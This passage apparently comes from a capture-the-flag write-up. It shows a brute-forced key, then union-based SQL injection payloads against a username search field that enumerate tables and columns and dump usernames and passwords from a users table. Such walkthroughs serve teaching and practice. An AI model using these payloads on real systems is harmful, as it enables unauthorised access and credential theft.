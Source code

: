 ```Console
# python bruteForce.py                                  
[+] Brute Force: The password is: elite
```

With the correct key, the web let you search usernames. First and foremost, let's try _SQLi_. With _"_ the input is vulnerable to SQLi.
![Username](images/username_sqli.png)
![SQLi](images/sqli.png)

First, i am going to check the number of columns:

```sql
" union select null,null,null-- -
```
The following is list the tables names:

```sql
" union select table_name,null,null from information_schema.tables where table_schema=database()-- -
```
![tables](images/table.png)

Also with columns:
```sql
" union select column_name,null,null from information_schema.columns where table_name = 'users'-- -
```
![columns](images/columns.png)

Lets dump the table users:
```sql
" union select user,pass,id from users-- -
```
